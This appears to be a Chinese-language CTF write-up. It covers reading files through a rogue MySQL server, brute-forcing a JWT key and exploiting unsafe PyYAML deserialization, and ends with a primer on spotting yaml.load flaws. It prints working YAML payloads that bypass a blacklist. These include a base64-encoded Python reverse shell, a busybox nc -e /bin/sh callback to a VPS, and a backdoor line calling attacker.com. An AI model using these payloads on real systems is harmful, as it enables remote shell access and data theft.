







# ?CTF复现 **mysql管理工具**

利用了老版本mysql的漏洞获取读取文件的权限

[18.MYSQL任意文件读取 · Aaron 知识库](https://byaaronluo.github.io/知识库/01.WEB安全/99.其他/18.MYSQL任意文件读取.html)

也有现成执行文件

https://github.com/allyshka/Rogue-MySql-Server（看文件就知道是老东西了

## 题解

先说这道题吧



先是一个登录页面，听名字以为是sql注入，但是测试没有发现注入点，看源码发现是弱口令，藏在源码里




抓包看看，猜测是拟造cookie密钥


这格式就很jwt

爆破一下key



然后就可以拟写jwt了


失败了，看了wp后才知道这道题要用到上面那个东西，伪造一个服务端，接收命令，不知道为什么，python脚本用不了，最后我是用项目中的linux版本运行的



放到vps上，然后配置文件


> 如图
>
> `host`接收所有IP，开放3309端口，然后查看源码，需要配置的基本就这些



可以看到已经读到源码了，cat一下



源码审计……看不出什么，喂给ai

```python
@app.route('/uneed1t', methods=['GET'])
def uneed1t():
    data = request.args.get('data', '')
    if data == '':
        return jsonify({"result": "null"})
    try:
        
        black_list = [
            "system", "popen", "run", "os"
        ]

        for forb in black_list:
            if forb in data:
                return jsonify({"result":"error"})
        
        yaml.load(data, Loader=yaml.Loader)

        return jsonify({"result": "ok"})
    except Exception as e:
        return jsonify({"result":"error"})
```

ai说这一段存在yaml反序列化，但是有黑名单，采用在vps上弹shell的方式

\#任意⽂件读的利⽤ 

```python
!!python/object/apply:subprocess.Popen- ["sh","-c","cat /f* >1.txt"] 
```

#弹shell 可以起socket去打 

```python
!!python/object/apply:subprocess.Popen- ["python", "-c", "import  base64;base64exp='aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIml wIixwb3J0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKQ"' ';exp=base64.b64decode(base64exp).decode();exec(exp)"] 
```

```python
!!python/object/apply:subprocess.call [['/bin/busybox','nc','vps的ip地 址','nc监听端⼝','-e','/bin/sh']] 
```

首先要在vps上安装nc，然后要确保你选择的端口开放了，就可以执行命令了



## 关于yaml反序列化

### 1. 代码层面的识别标志

#### 关键函数调用

python

```
# 危险的使用方式
yaml.load(data)                    # 默认使用不安全的 Loader
yaml.load(data, Loader=yaml.Loader) # 显式使用不安全的 Loader

# 安全的使用方式
yaml.safe_load(data)              # 安全
yaml.load(data, Loader=yaml.SafeLoader) # 安全
```


#### 用户输入直接传递给 yaml.load()

python

```
# 危险模式 - 用户可控输入直接反序列化
data = request.args.get('data')    # 来自用户输入
data = request.json['data']        # 来自用户输入
yaml.load(data)                    # 直接反序列化
```


### 2. YAML 反序列化的特殊语法特征

#### Python 对象构造标记

yaml

```
# !!python/object 创建 Python 对象
!!python/object:os.system
!!python/object:subprocess.Popen

# !!python/object/apply 调用函数
!!python/object/apply:os.system
- "whoami"

# !!python/object/new 创建新实例
!!python/object/new:os.system
```


#### 特殊标签前缀

yaml

```
!!python/object:module.classname    # Python 对象
!!python/name:module.function       # Python 名称
!!python/module:package.module      # Python 模块
!!python/attr:object.attribute      # Python 属性
```


### 3. 攻击载荷的常见模式

#### 命令执行载荷

yaml

```
# 直接系统命令
!!python/object/apply:os.system ["id"]

# 使用 subprocess
!!python/object/apply:subprocess.Popen
- ["cat", "/etc/passwd"]

# 链式调用
!!python/object/apply:__import__ ["os"]
args: ["system"]
- ["whoami"]
```


#### 文件操作载荷

yaml

```
# 读取文件
!!python/object/apply:open
- ["/etc/passwd", "r"]

# 写入文件
!!python/object/apply:open  
- ["/tmp/backdoor.py", "w"]
- ["__import__('os').system('nc -e /bin/sh attacker.com 4444')"]
```


### 4. 漏洞存在的上下文环境

#### 危险的使用场景

python

```
# 场景1: 配置加载
config = yaml.load(user_provided_config)

# 场景2: 数据交换
data = yaml.load(request.data)

# 场景3: 缓存反序列化  
cached_data = yaml.load(redis.get('user_data'))

# 场景4: API 参数处理
@app.route('/load')
def load_data():
    data = request.args.get('yaml_data')
    return yaml.load(data)  # 危险!
```


### 5. 识别技巧总结

#### 代码审计时关注：

1. **导入语句**: `import yaml` 或 `from yaml import load`
2. **函数调用**: 查找 `yaml.load()` 调用
3. **参数来源**: 检查参数是否来自用户输入
4. **Loader 类型**: 确认是否使用不安全的 Loader

先粗略的了解一下，以后系统性的学习
